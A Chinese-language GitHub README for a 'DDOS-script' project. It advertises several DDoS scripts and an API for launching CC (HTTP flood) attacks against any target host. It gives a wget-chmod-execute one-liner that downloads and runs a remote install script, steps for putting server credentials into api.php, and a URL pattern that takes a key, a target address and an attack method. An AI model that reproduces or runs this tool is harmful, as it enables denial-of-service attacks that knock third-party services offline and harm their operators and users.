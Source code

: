 # DDOS-script
本项目包含了多个DDOS脚本,并可以实现通过API调用实现CC攻击

使用方法:

系统要求:centos6+

运行指令: wget https://raw.githubusercontent.com/jasonBrom/DDOS-script/master/install.sh&&chmod 755 install.sh&&./install.sh

安装过程中有一个地方要输入，无需输入回车即可。

运行完成后 vi /var/www/html/api.php 将文件中的服务器IP用户名和密码,修改成当前服务器密码和用户名

API调用方法:
http://服务IP地址/api.php?key=Key(默认123可自行在api.php中修改)&host=目标地址&method=CC

暂时API仅支持CC攻击(其他脚本可自行下载使用，暂不提供API支持)
